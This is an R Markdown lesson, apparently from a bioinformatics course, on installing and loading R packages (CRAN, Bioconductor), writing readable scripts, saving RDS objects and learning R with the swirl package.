# R – Packages

## What are modules and packages

Modules and package are considered to be the same thing in this lesson. The difference is technical and does not relates to our session.

Most of the work you are likely to do with R will require one or several packages. A package is a list of functions or pipelines shipped under a given name. In general, a package groups together functions linked to an analysis theme or the same objective.
Every single function you use through R comes from a package or another.

Read the very first line of the help pane:

```{r help_pane_package, eval=FALSE}
help(head)
```

It reads: `help {utils}`. The function `help` comes from the package `utils`.

```{r head, eval=TRUE}
# Call the function "help", with the argument "example_table", and show only the first line
head(example_table, 1)
```

> <span style="color:#CD853F"> Warning: Sometime, two package may have a function with the same name. They are most certainly not doing the same thing. IMHO, it is a good habbit to always call a function while disambiguating the package name. `utils::help()` is better than `help()` alone.</span>

```{r use_package_name, eval=TRUE}
# Call the function "help" ***from the package utils***, with the argument "example_table", and show only the first line
utils::head(example_table, 1)
```

## Install a package

You may install a new package.

Use [`install.packages()`](https://www.rdocumentation.org/packages/utils/versions/3.6.2/topics/install.packages) to install a package.

```{r install_package}
# Install a package with the following function
install.packages("dplyr")
```

This will raise a prompt asking for simple questions : where to download from (choose somewhere in France), whether to update other packages or not, etc.

Do not be afraid by the large amount of things prompted in the console and let R do the trick.

Alternatively, you can click Tool -> Install Packages in RStudio; or click on the "install" button in the tab Packages of the pane File/Help.

You can list installed packages with [`installed.packages()`](https://www.rdocumentation.org/packages/utils/versions/3.6.2/topics/installed.packages), and find for packages that can be updates with [`old.packages()`](https://www.rdocumentation.org/packages/utils/versions/3.6.2/topics/update.packages). These packages can be updated with [`update.packages()`](https://www.rdocumentation.org/packages/utils/versions/3.6.2/topics/update.packages).

While the function [`install.packages()`](https://www.rdocumentation.org/packages/utils/versions/3.6.2/topics/install.packages) searches packages in the common R package list, many bioinformatics packages are available on other shared packages warehouses. Just like AppleStore and GoogleStore do not have the same applications on mobile, R has multiple sources for its packages. You need to know one of them, and one only [Bioconductor](https://bioconductor.org/).


You can use Bioconductor with the function [`BiocManager::install()`](https://www.rdocumentation.org/packages/BiocManager/versions/1.30.18):

```{r bioconductor_install_example}
# Install BiocManager, a package to use Bioconductor
install.packages("BiocManager")

# Install a package from Bioconductor
BiocManager::install("DESeq2")
```


## Use a package

All installed packages are not activated in your working session.
You can load a package with the function [`library()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/library):

```{r load_package}
library(package="dplyr")
```

If the package is not installed, you will get an error.

If there is no error message, then you can try:

```{r use_package}
help(topic="arrange", package="dplyr")
```

And search for help about how to run your command.

Alternatively, there is a more complete help page, with the function [`browseVignettes()`](https://www.rdocumentation.org/packages/utils/versions/3.6.2/topics/browseVignettes). It opens your browser automatically, and if you click on "HTML", you get some information about the package like functions, tutorials, etc.

```{r vignette_package}
browseVignettes(package="dplyr")
```

## TLDR – Too Long Didn't Read

```{r packages_tldr}
# Install a package with the following function
install.packages("BiocManager")

# Load a package
library("BiocManager")

# Install a package from Bioconductor
BiocManager::install("DESeq2")

# Get help
browseVignettes(package="DESeq2")
```

# Tips for your project

## Write a good script

Good practice:

 - make a documentation (a header at the start of the script which explains the purpose of the script, and the analysis steps for example),
 - comments (uninterpreted line, begin by `#`),
 - code indentation (spaces before code line),
 - understandable variable names,
 - do not nest too many functions inside each other,
 
```{r bad_good_example, eval=FALSE}
### difficult to understand
    print(rowMeans(data.frame(c(9, 14, 17, 9, 13),
c(11, 10, 20, 7, 17),c(15, 8,      19, 10, 15)   ))       )

### easy to understand
## Goal: this script computes the mean of the expression of our 3 samples for each gene:
#create a dataframe with the genes expression of our 3 samples:
example_data_frame <- data.frame("Expression_Sample_1" = c(9, 14, 17, 9, 13),
                                 "Expression_Sample_2" = c(11, 10, 20, 7, 17),
                                 "Expression_Sample_3" = c(15, 8, 19, 10, 15)
                      )
#add corresponding genes names into row names:
rownames(example_data_frame) <- c("Caml", "Scamp5", "Dgki", "Mas1", "Apba1")
#compute the mean of the expression for each gene:
mean_expression_Samples123 <- rowMeans(example_data_frame)
#print the result:
print(mean_expression_Samples123)
```
 
 - save your script regularly, as well as your working environment,
 - save the versions of the loaded packages at the end of your analysis (you can print loaded packages thanks to the function [`sessionInfo()`](https://www.rdocumentation.org/packages/utils/versions/3.6.2/topics/sessionInfo) and save the result into a file thanks to the function [`capture.output()`](https://www.rdocumentation.org/packages/utils/versions/3.6.2/topics/capture.output)).
 
```{r sessionInfo, eval=TRUE}
sessionInfo() #display versions of loaded packages in the console
```
```{r sessionInfo_capture, eval=FALSE}
utils::capture.output(sessionInfo(), file="sessionInfo.txt") #save them in a file
```

## Load and save R objects

While working on your projects, you will process datasets in R. The results of these analyses will be stored on variables. This means, that when you close RStudio, some of this work might be lost.

We already saw the function [`save.image()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/save) to save a complete copy of your working environment.

However, you can save _only the content of a given variable_. This is useful when you want to save the result of a function (or a pipeline) but not the whole 5 hours of work you've been spending on how-to-make-that-pipeline-work-correctly.

The format is called: [RDS](https://www.r-bloggers.com/2016/12/remember-to-use-the-rds-format/) for R Data Serialization. This is done with the function [`saveRDS()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/readRDS):

```{r save_rds_use, eval=FALSE}
saveRDS(object = example_table, file = "example_table.RDS")
```

You can also load a RDS into a variable. This is useful when you receive a RDS from a coworker, or you'd like to keep going your work from a saved point. This is done with the function [`readRDS()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/readRDS):

```{r load_rds, eval=FALSE}
example_table <- readRDS(file = "example_table.RDS")
head(example_table)
```

## Human data

<span style="color:#CD853F"> Warning: If you hold human-related genomic datasets. You cannot use/upload these data anywhere. This is illegal, and doing surch thing may lead to 5 years in prison and up to 300 000€ fine. [Art. 226-16, Section 5, Code pénal](https://www.cnil.fr/fr/les-sanctions-penales).</span>

## Packages updates

It is a good practice to maintain package versions within a work project. If you update a package (whether by need, or by will), then you should restart your work from the begining. This stands as long as you're not 100% sure the update does not affect your results.

# Swirl R package

How to continue to learn R?


## What is swirl?

[`swirl`](https://swirlstats.com/) is an R package that teaches you R programming and data science interactively, at your own pace, and right in the R console.

It presents a choice of course lessons and interactively tutors a student through them. A student may be asked to watch a video, to answer a multiple-choice or fill-in-the-blanks question, or to enter a command in the R console precisely as if he or she were using R in practice. Emphasis is on the last, interacting with the R console. User responses are tested for correctness and hints are given if appropriate.

Progress is automatically saved so that a user may quit at any time and later resume without losing work.

## Installation and using

```{r swirl, eval=FALSE}
#install package
install.packages("swirl")
#load package
library(swirl)
#install the R course for 
install_course("R Programming")
#start the course
swirl()
```
Enjoy!

<details>
<summary>Other command lines for swirl using</summary>

```{r swirl_add, eval=FALSE}
#quit swirl
bye()
#skip a question
skip()
#return to the main menu
main()
#allow experimentation in the R console without interference from swirl
play()
#to resume interacting with swirl
nxt()
#display a help menu
info()
```

</details>

# Conclusion

No programming language is better than any other. Anyone saying the opposite is (over)-specialized in the language they are advertising.

In the field of bioinformatics, languages used by the community are quite limited. THere are [_bash_](https://www.gnu.org/software/bash/), [_R_](https://www.r-project.org/) and [_Python_](https://www.python.org/). While learning [_bash_](https://www.gnu.org/software/bash/) cannot be escaped nowadays, it is not enough to perform a complete analysis with publication ready figures and results. You should be interested in another programming language: [_R_](https://www.r-project.org/) and/or [_Python_](https://www.python.org/). R allows you to do a lot of different analyses, and it has a large user community with lots of online help, so it's one of the easiest languages for beginners.

Please, note that this advice is valid today, but may change. Other programming languages are used, some have lost their place on the podium, and others are trying to supersede [_bash_](https://www.gnu.org/software/bash/), [_R_](https://www.r-project.org/), and [_Python_](https://www.python.org/).

<div style="float: right;">Thibault: "Anyway [_Python_](https://www.python.org/) is the best programming language in the WORLD. Don't listen to Bastien."</div>

